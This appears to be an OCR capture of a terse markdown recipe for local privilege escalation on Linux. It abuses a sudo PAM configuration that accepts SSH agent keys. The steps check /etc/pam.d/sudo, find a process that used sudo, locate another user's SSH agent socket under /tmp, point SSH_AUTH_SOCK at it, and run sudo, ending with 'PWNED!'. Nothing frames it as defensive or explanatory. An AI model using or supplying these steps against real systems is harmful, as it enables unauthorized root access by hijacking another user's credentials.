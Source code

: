 ## STEPS:

### 1) Check if PAM for sudo has been configured to accept SSH keys: cat /etc/pam.d/sudo

#### auth sufficient pam_ssh_agent_auth.so file=/etc/ssh/sudo_authorized_keys

#### session    required   pam_env.so readenv=1 user_readenv=0
#### session    required   pam_env.so readenv=1 envfile=/etc/default/locale user_readenv=0
#### @include common-auth
#### @include common-account
#### @include common-session-noninteractive

## 2) Check if the user that has signed in has used sudo: ps aux

## 3) Find an SSH agent socket file fot the shell process we can access: ls -la  /tmp/ssh-WHATEVER/agent.####

## 4) export SSH_AUTH_SOCK=/tmp/ssh-WHATEVER/agent.####

## 5) ssh-add -l

## 6) sudo -l

## 7) PWNED!
